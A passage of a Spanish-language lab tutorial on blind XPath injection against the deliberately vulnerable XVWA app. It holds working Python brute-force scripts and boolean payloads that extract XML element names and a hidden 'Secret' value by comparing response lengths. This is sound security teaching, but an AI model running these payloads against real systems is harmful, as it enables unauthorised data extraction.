signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 7):
        for character in characters:
            post_data = {
                'search': "1' and substring(name(/*[1]/*[1]),%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8686:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```


Resultado:

```bash
[+] Fuerza bruta: Ataque de fuerza bruta concluido
[+] Data: Coffee
```

Por lo que el archivo **Data** quedaría así:

```xml
<Coffees>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
</Coffees>
```

---

En esta secuencia podemos ver como el payload `' and count(/*[1]/*[2]/*)='4` nos permite ir cambiando entre `[1]` y `[2]` y entre `'4` y `'5`. Lo que nos corrobora lo que sabíamos del archivo coffee.xml. El detalle esta en haber añadido (yo personalmente para complicar el ejercicio) una sub-etiqueta de más al primer ítem, y es por lo que vemos que el primero muestra un total de 5 sub-etiquetas y segundo son 4






La estructura de **Data** quedaría así:

```xml
<Coffees>
	<Coffee></Coffee>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
	<Coffee></Coffee>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
		<Etiqueta></Etiqueta>
	<Coffee></Coffee>
		<Etiqueta></Etiqueta> x4
	<Coffee></Coffee>
		x10
</Coffees>
```

Si volvemos a ver el archivo *coffee.xml* vemos que es una estructura ya muy similar a la original, solo falta el nombre de las últimas etiquetas

**Nota:** con el proceso de enumeración en BurpSuite llegamos a la conclusión del número de etiquetas y sub-etiquetas del archivo `.xml` que estamos reconstruyendo

---

**Script Fuerza bruta múltiples etiquetas:**

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for first_position in range(1, 6):
        for second_position in range(1, 21):
            for character in characters:

                post_data = {
                    'search': "1' and substring(name(/*[1]/*[1]/*[%d]),%d,1)='%s" % (first_position, second_position, character),
                    'submit': ''
                }

                r = requests.post(main_url, data=post_data)

                if len(r.text) != 8691 and len(r.text) != 8692:
                    data += character
                    p2.status(data)
                    break

        if first_position != 5:
            data += ":"

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```

Resultado:

```bash
[+] Fuerza bruta: Ataque de fuerza bruta concluido
[+] Data: ID:Name:Desc:Price:Secret
```

---

**Data:** con la información extraída del último script y la que ya teníamos en el navegador, podemos seguir rellenando nuestro archivo Data

```xml
<Coffees>
	<Coffee></Coffee>
		<ID>1</ID>
		<Name>Affogato</Name>
		<Desc>An affogato (Italian, "drowned") is a coffee-based beverage. It usually takes the form of a scoop of vanilla gelato or ice cream topped with a shot of hot espresso. Some variations also include a shot of Amaretto or other liqueur.</Desc>
		<Price></Price>
		<Secret></Secret>
	<Coffee></Coffee>
		<ID>2</ID>
		<Name>Americano</Name>
		<Desc>An Americano is an espresso-based drink designed to resemble coffee brewed in a drip filter, considered popular in the United States of America. This drink consists of a single or double-shot of espresso combined with up to four or five ounces of hot water in a two-demitasse cup.</Desc>
		<Price></Price>
	<Coffee></Coffee>
		<Etiqueta></Etiqueta> x4
	<Coffee></Coffee>
		x10
</Coffees>
```

Como podemos buscar hasta 10 tipos de café, toda la estructura xml que estamos montando cobra bastante sentido. Por cada número que ponemos podemos ir añadiendo información como el nombre, el ID y la descripción a nuestro archivo *Data* que representa al archivo *coffee.xml* que hay por detrás de este servidor y que estamos vulnerando con inyecciones XPath



---

Ahora para ejemplificar un reto final. Vamos a tratar de extraer la información de la etiqueta 'Secret'. Con el siguiente payload podemos confirmar la existencia de la cadena de texto de la etiqueta `' and substring(Secret,1,1)='E` 



Este payload confirma la longitud `' and string-length(Secret)='18`



Entonces el **script** quedaría de la siguiente forma:

```python
#/usr/env/bin python3

from pwn import *

import requests, time, sys, pdb, string, signal

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://192.168.1.70/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters + ' '

def xPathInjection():

    data = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 19):
        for character in characters:
            post_data = {
                'search': "1' and substring(Secret,%d,1)='%s" % (position, character),
                'submit': ''
            }

            r = requests.post(main_url, data=post_data)

            if len(r.text) != 8676 and len(r.text) != 8677:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de fuerza bruta concluido")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```

Resultado:

```bash
[+] Fuerza bruta: Ataque de fuerza bruta concluido
[+] Data: Es usted un Hacker
```

**Nota:** `$query = "/Coffees/Coffee[@ID='".$input."']";` esta es la parte del código que vemos en la máquina victima `home.php`. Y es el motivo por el que esto esta mal sanitizado. Ya que se confía en el input del usuario y directamente se aplica, es cuestión de saber que comandos aplican

---